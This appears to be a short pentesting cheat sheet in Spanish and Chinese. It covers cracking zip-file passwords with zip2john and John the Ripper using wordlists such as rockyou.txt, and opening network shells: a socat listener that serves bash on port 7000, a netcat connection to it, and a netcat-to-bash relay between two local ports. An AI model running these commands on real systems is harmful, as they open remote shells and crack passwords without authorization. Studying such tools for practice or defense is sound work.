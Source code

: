 ###Cambiar su formato
zip2john file.zip > crack.txt

###Descifrado
john --wordlist=dict.txt --rule=all hashes.txt

john --wordlist=rockyou.txt crack.txt


socat TCP-LISTEN:7000,FORK EXEC:bash
此命令使用 `socat` 在端口 7000 上创建 TCP 服务器，并为每个传入连接派生一个新进程，执行 `bash` shell。 本质上，它打开一个端口 (7000) 并允许您通过网络连接到 shell。
nc 127.0.0.1 7000
此命令使用 `nc` (netcat) 连接到端口 7000 上的本地主机 (127.0.0.1)，其中 `socat` 命令正在侦听。 当您运行此命令时，它应该与“socat”创建的 shell 建立连接，从而有效地让您可以访问自己计算机上的远程 shell。


nc 127.0.0.1 5001 | bash | nc 127.0.0.1 5002
该命令本质上连接到端口 5001 上的本地主机，将收到的任何数据发送到“bash”shell，然后将“bash”shell 的输出发送到端口 5002 上的另一个“nc”连接。
